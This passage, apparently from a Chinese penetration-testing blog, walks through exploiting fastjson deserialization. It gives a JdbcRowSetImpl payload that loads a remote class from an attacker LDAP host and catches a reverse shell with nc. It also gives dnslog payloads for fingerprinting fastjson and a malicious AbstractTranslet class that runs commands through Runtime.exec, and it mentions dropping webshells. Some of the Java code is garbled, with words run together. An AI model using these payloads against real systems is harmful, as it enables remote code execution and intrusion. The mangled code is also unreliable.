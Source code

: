 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220215122833.png)

这里还是跟上面一样需要改GET方法为POST方法，添加Content-Type:application/json，在就是把之前生成的payload复制

    
    
    {"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://192.168.1.8:8888/Object","autoCommit":true}}

发包使用nc监听8888端口即可收到反弹shell

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220215122834.png)

# fastjson深入探究

首先如何快速判断是否使用了fastjson呢

第一种方法就是使用报错回显

这里首先在web页面抓包

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220215122835.png)

然后修改GET为POST，添加`Content-Type:application/json`，在发送一个`{"test":"`，即可得到回显

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220215122836.png)

第二种方法就是使用dnslog测试，使用如下payload，这里的dnslog使用dnslog获得的网址进行替换即可

    
    
    {"@type":"java.net.Inet4Address","val":"dnslog"}{"@type":"java.net.Inet6Address","val":"dnslog"}{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"dnslog"}}""}    {{"@type":"java.net.URL","val":"dnslog"}:"aaa"}Set[{"@type":"java.net.URL","val":"dnslog"}]Set[{"@type":"java.net.URL","val":"dnslog"}{{"@type":"java.net.URL","val":"dnslog"}:0

第三种方法就是使用nc监听端口，在之前漏洞复现中已经讲过，就不再赘述了

我们在前面用到的都是远程加载RMI或LDAP服务端上的恶意类，即远程加载恶意类，在一些情况下，这种远程加载恶意类的方法并不能百分之百能够利用成功，这里就可以使用本地利用方式，就可以不用远程加载恶意类

首先生成test.java文件

    
    
    import com.sun.org.apache.xalan.internal.xsltc.DOM;import com.sun.org.apache.xalan.internal.xsltc.TransletException;import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;import com.sun.org.apache.xml.internal.serializer.SerializationHandler; import java.io.IOException; publicclassTestextendsAbstractTranslet{    publicTest() throwsIOException{        Runtime.getRuntime().exec("ping test.0g7slo.dnslog.cn");    }     @Overridepublicvoid transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {    }     publicvoid transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throwsTransletException{     }     publicstaticvoid main(String[] args) throwsException{        Test t = newTest();    }}

这里就可以ping一下dnslog来查看攻击是否成功，这里还有一种情况就是fastjson在真实情况下不出网，那么肯定是不能ping通的，这时候我们就可以选择写入webshell到web路径，前提是要知道绝对路径，或者是使用无文件回显来利用
